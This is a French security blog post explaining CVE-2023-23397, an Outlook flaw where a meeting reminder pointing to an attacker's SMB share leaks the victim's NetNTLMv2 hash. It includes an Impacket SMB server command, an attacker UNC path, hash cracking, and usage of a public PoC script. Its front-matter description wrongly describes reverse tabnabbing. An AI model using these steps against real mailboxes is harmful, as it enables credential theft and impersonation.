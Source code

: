 ```yaml
---
title: "CVE-2023-23397 - La réunion Outlook qui exfiltre votre mot de passe."
description: "Plongez dans les abysses du 'reverse tab nabbing', une technique de phishing redoutablement efficace. Découvrez comment les pirates informatiques exploitent astucieusement les onglets de votre navigateur pour vous rediriger vers des sites malveillants, tout en vous laissant croire que vous naviguez en toute sécurité sur vos sites familiers. À travers un scénario réaliste, nous vous montrons pas à pas comment cette attaque se déroule et soulignons les failles exploitables. Apprenez des mesures essentielles pour vous protéger, comme éviter l'usage de l'attribut target=_blank ou incorporer rel=noopener noreferrer. Cet article est un incontournable pour renforcer votre cybersécurité et déjouer les pièges du phishing moderne."
date: 2023-03-24T17:25:42+01:00
draft: false
images: [/images/cve-outlook/CVE-2023-23397.png]
featuredImage: "/images/cve-outlook/CVE-2023-23397.png"
featuredImagePreview: "/images/cve-outlook/CVE-2023-23397.png"
tags: ["Pwncloud", "Pentest", "Cloud"]
---
```


# ⏰ Le rappel de réunion qui vous veut du mal

## Découverte

Le 14 mars 2023, la société `MdSec` publiait [un article](https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/) traitant d'une nouvelle vulnérabilité corrigée dans la dernière mise à jour proposée par Microsoft.

La vulnérabilité était décrite de la façon suivante : 

{{< admonition quote "Patch KB5005413" >}}
Microsoft Office Outlook contains a privilege escalation vulnerability that allows for a NTLM Relay attack against another service to authenticate as the user.
{{< /admonition >}}

L'analyse d'un [script](https://github.com/microsoft/CSS-Exchange/blob/a4c096e8b6e6eddeba2f42910f165681ed64adf7/docs/Security/CVE-2023-23397.md) d'analyse fournit par Microsoft permet d'obtenir quelques indices sur l'exploitation de cette vulnérabilité.

## Détails techniques

Le script indique certains élements :

```powershell
<#
.SYNOPSIS
    This script audits mails, calendar and task items and check if PidLidReminderFileParameter property is populated or not.
```

```powershell
$searchFilterPidLidReminderFileParameterExists = New-Object Microsoft.Exchange.WebServices.Data.SearchFilter+Exists($mailInfo["PidLidReminderFileParameter"])
$searchFilterCollection.Add($searchFilterPidLidReminderFileParameterExists)
```

```powershell
if (-not $item.RemoveExtendedProperty($mailInfo["PidLidReminderFileParameter"])) {
    Write-Host ("Property already cleared on entry number: $entryCount, Line number: $($entryCount + 1)") -ForegroundColor Yellow
    $invalidEntries.Add($entryCount)
    continue
}
```

Le script recherche les emails contenant l'attribut `PidLidReminderFileParameter`. Ce paramètre permet de contrôler la ressource jouée lors du rappel d'une réunion.

Il est donc possible de conclure :

- Outlook souffre d'un **manque de contrôle sur la saisie de l'utilisateur** qui permet de configurer le son d'un rappel de réunion et de rendez-vous. 
- L'attaquant est effectuable sans aucune manipulation de la part de l'utilisateur (vulnérabilité de type "zero click").
- L'attaquant est capable de forcer une victime à établir une connexion avec son serveur afin de dérober son **condensat NetNTLM**.

Un attaquant exploitant cette vulnérabilité récupère un condensé NetNTLMv2 basé sur le mot de passe de l'utilisateur piégé via une requête SMB. La requête est déclenchée dès que le courrier arrive dans la boîte de réception.

## Exploitation

### Pas à pas

Pour exploiter cette faiblesse il est nécessaire d'agir en plusieurs étapes.

Dans un premier temps, il faut ouvrir un serveur SMB afin de réceptionner le condensat NetNTLM tansmis par la victime (par exemple avec Impacket comme ci-dessous).

```bash
smbserver.py -smb2support EXEGOL .
```

![Serveur SMB](/images/cve-outlook/2023-09-12-17-23-49.png)

Une fois que le serveur est configuré, il faut configuré la réunion. Pour cela, il faut faire pointer le rappel de la réunion vers le serveur de l'attaquant. Par exemple : `\\10.10.10.10\EXEGOL\` pour s'adapter à la commande précédente.

![](/images/cve-outlook/2023-09-12-17-25-33.png)

Le rendez-vous positionné, son arrivée dans la boite mail de la victime déclenche l'envoi d'un condensat NetNTLMv2 vers le serveur de l'attaquant.

![](/images/cve-outlook/2023-09-12-17-27-15.png)

Ce condensat a été créée à partir du mot de passe de la victime. Une attaque par force brute (ci-dessous avec `Hashcat`) à l'aide d'une liste de mot de passe adéquat permet de retrouver le mot de passe exfiltré.

![](/images/cve-outlook/2023-09-12-17-29-19.png)


### PoC final

Le PoC final est réalisable facilement.

![](/images/cve-outlook/poc.gif)


## Automatisation

Ce type d'exploit est facilement automatisable. Un PoC est disponible sur le GitHub de Trackflaw : https://github.com/Trackflaw/CVE-2023-23397

Ce PoC agit en plusieurs étapes :

1. Il créé un fichier `.msg` pointant vers le serveur de l'attaquant.
2. Ce fichier de réunion est mis en pièce jointe d'un email.
3. L'email est transmis à la victime.

Utilisation du PoC

```python
python CVE-2023-23397.py

usage: CVE-2023-23397.py [-h] -p PATH
CVE-2023-23397.py: error: the following arguments are required: -p/--path

python CVE-2023-23397.py --path '\\yourip\'
```

## Risques et remédiations

Les risques pour ce type de vulnérabilité sont nombreux. Un attaquant est en mesure de réaliser un certains nombre d'actions malveillantes :

- Retrouver le mot de passe de l'utilisateur.
- Transmettre le condensat afin de s'authentifier à la place de l'utilisateur.
- Accéder à des ressources réseaux.
- Usurper des identités.
- Compromettre des serveurs et des stations de travail.
- Etc

Afin de se protéger contre cette vulnérabilité, Microsoft a publié un correctif disponible depuis plusieurs jours avant la publication du premier PoC officiel.

## Vidéo

Enfin, une vidéo plus détaillée est disponible sur la chaine YouTube de Trackflaw.

{{< youtube 6bhJPwFgs8Q >}}